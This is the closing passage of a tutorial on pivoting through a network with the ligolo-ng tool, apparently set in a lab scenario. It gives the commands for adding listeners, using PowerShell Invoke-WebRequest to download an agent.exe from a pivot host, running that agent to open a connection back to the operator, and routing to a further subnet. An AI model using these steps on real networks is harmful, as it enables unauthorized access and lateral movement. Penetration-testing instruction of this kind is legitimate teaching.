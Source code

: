 We add our listeners for forwarding traffic, file transfers, and getting back a connection to ligolo-ng, depending on what our further actions will be.

```shell
listener_add --addr 0.0.0.0:1236 --to 0.0.0.0:8001

listener_add --addr 0.0.0.0:1237 --to 0.0.0.0:8002

listener_add --addr 0.0.0.0:11601 --to 0.0.0.0:11601
```

We transfer the agent to the host from our python server (this time running at port 8001) using the IP address of our second pivot host.

```powershell
Invoke-WebRequest -Uri "http://172.16.6.35:1236/agent.exe" -OutFile agent.exe
```

We'll run the agent file to get a connection back to ligolo-ng.

```shell
./agent.exe -connect 172.16.6.35:11601 -ignore-cert
```

Just like that we have a third session going. 

![](14.png)

We can switch to it and add the next route we need to access.

```
ip route add 172.16.10.0/24 dev ligolo
```

This is the end of our scenario and this is what the final result would look like with our three agents giving us access to three sessions that we can switch between seamlessly.

![](15.png)

---

I hope this was informative and taught you enough to start comfortably using ligolo-ng. It's an incredible tool that makes pivoting trivial once you get used to it. 

Happy hacking!
